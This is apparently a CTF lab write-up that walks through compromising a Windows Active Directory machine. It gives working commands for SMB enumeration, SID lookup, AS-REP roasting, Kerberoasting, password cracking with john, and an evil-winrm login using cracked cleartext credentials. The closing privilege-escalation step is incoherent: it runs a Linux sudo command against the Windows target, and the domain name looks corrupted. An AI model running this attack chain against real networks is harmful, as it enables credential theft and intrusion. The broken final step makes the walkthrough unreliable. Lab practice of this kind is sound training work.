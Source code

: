 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)




## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

Now let's try to find some SPN associated with user accounts. Result should be a file with encrypted password.

```
impacket-GetUserSPNs 'VULNNET-RST.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.171.250 
```

![GetUserSPNs](/images/SPN.jpg)

![hash2](/images/hash2.jpg)

Now we can try crack it the same way as before:

![cracked2](/images/cracked2.jpg)

We have now the cracked password for the account 'enterprise-core-vn'. Let's attempt a remote connection:

```
evil-winrm -i 10.10.171.250 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' 
```

![remote](/images/remote.jpg)


## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
